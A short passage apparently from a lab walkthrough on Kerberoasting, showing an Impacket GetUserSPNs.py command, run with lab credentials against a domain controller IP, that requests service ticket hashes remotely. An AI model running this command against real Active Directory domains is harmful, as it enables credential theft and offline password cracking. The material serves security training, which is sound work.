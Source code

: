 <figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### Kerberoasting w/ Impacket

With Impacket we don't have to RDP into a machine or even be connected. We can do this attack remotely. To run this attack type the following command in your attack machine terminal:

<mark style="color:green;">**sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.142.7 -request**</mark>

Cool! We get the same hashes, and we did it remotely!&#x20;
